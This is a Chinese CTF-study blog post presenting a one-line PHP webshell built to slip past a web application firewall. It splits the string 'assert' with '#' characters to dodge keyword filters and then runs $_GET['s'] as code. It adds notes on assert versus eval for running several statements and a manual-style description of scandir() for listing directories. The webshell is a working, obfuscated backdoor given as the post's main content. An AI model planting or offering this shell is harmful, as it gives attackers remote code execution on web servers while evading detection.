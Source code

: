 ```yaml
---
layout:     post
title:      "CTF学习"
subtitle:   "过狗一句话"
date:       2019-10-03 00:30:00
author:     "LR"
header-img: "img/ctf_background.jpeg"
tags:
    - CTF
---
```


## 过狗一句话

```
<?php 
$poc="a#s#s#e#r#t"; 
$poc_1=explode("#",$poc);   #poc_1是一个数组，分割界是“#”
$poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; 
$poc_2($_GET['s'])  #assert($_GET['s'])
?>
```

#### assert()函数
1 assert是函数,eval不是函数,是语言构造器
2 eval($a)中$a只能是字符串,assert($a)中$a可以是php代码,也可以是php代码的字符串,assert($a)的$a如果是字符串形式不能有2个以上的分号,如果有2个以上的分号只执行到第一个,使用assert来执行多条php语句可借助eval来实现 
eg.
<br/>
assert(eval("echo 1;echo 2;"));
<br/>
[注意上面这句如果是assert(eval("echo 1;echo 2"));这样写是不会执行echo 1也不会执行echo 2的,因为eval使用的字符串要是有分号的php语句] 


<br/><br/><br/>
[参考文献](http://www.52bug.cn/hkjs/2018.html)

#### scandir()函数
(PHP 5, PHP 7)
***
scandir — 列出指定路径中的文件和目录
<br/>
说明
`scandir ( string $directory [, int $sorting_order [, resource $context ]] ) : array`
返回一个 array，包含有 directory 中的文件和目录。 
<br/>
参数
***
directory   要被浏览的目录
sorting_order   默认的排序顺序是按字母升序排列。如果使用了可选参数 sorting_order（设为 1），则排序顺序是按字母降序排列。
context 略
<br/>
返回值
***
成功则返回包含有文件名的 array，如果失败则返回 FALSE。如果 directory 不是个目录，则返回布尔值 FALSE 并生成一条 E_WARNING 级的错误。
